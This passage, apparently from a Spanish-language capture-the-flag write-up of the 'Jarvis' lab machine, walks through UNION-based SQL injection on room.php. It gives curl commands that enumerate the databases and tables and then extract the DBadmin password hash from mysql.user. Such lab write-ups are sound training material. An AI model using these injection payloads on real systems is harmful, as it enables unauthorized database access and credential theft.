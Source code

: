 Podemos enumerar la base de datos:

![Untitled](/assets/images/Jarvis/Untitled%204.png#center)

Lo primero a enumerar es el nombre de las base de datos y cuantas existen:

`http://10.10.10.143/room.php?cod=7 UNION SELECT 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c)e,4,5,6,7+fRoM+information_schema.schemata--+`

![Untitled](/assets/images/Jarvis/Untitled%205.png#center)

Hay 4 base de datos, vamos a enumerar hotel y mysql:

```bash
❯ curl -s -X GET "http://10.10.10.143/room.php?cod=7%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,table_name,0x7c)e,4,5,6,7+fRoM+information_schema.tables++wHeRe+table_schema=%22hotel%22--+" | grep "price-room" | html2text
|room|
```

Solo tiene la tabla room, no me interesa, asi que paso a la base de datos de mysql:

```bash
❯ curl -s -X GET "http://10.10.10.143/room.php?cod=7%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,table_name,0x7c)e,4,5,6,7+fRoM+information_schema.tables++wHeRe+table_schema=%22mysql%22--+" | grep "price-room" | html2text
|column_stats|,|columns_priv|,|db|,|event|,|func|,|general_log|,|gtid_slave_pos|,|help_category|,|help_keyword|,|help_relation|,|help_topic|,|host|,|index_stats|,|innodb_index_stats|,|innodb_table_stats|,|plugin|,|proc|,|procs_priv|,|proxies_priv|,|roles_mapping|,|servers|,|slow_log|,|table_stats|,|tables_priv|,|time_zone|,|time_zone_leap_second|,|time_zone_name|,|time_zone_transition|,|time_zone_transition_type|,|user|
```

Vemos que tiene una tabla llamada user, normalmente mysql tiene dentro de la tabla user las columnas user y password, vamos a intentar sacar la informacion:

```bash
❯ curl -s -X GET "http://10.10.10.143/room.php?cod=7%20UNION%20SELECT%201,2,gRoUp_cOncaT(user,0x7c,password)e,4,5,6,7+fRoM+mysql.user--+" | grep "price-room" | html2text
DBadmin|*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
